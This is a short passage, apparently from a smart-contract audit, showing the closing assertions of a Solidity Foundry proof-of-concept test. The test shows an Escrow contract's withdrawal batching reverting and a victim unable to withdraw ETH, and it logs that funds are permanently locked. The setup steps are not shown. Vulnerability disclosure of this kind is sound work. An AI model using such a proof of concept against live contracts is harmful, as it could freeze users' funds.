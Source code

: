 ```solidity
        // Core Assertion: Expect the call to revert with an EmptyBatch error from the internal library.
        vm.expectRevert(WithdrawalsBatchesQueue.EmptyBatch.selector);
        escrow.requestNextWithdrawalsBatch(100);

        console.log("SUCCESS: requestNextWithdrawalsBatch() reverted as expected!");

        // Final Assertion: Since the withdrawal process is stuck, the victim cannot withdraw their ETH.
        vm.prank(victim);
        vm.expectRevert(EscrowStateLib.RageQuitExtensionPeriodNotStarted.selector);
        escrow.withdrawETH();

        console.log("--- VERIFICATION COMPLETE ---");
        console.log("PoC Successful: Funds are PERMANENTLY LOCKED in the Escrow contract.");
    }
}
```

```

```
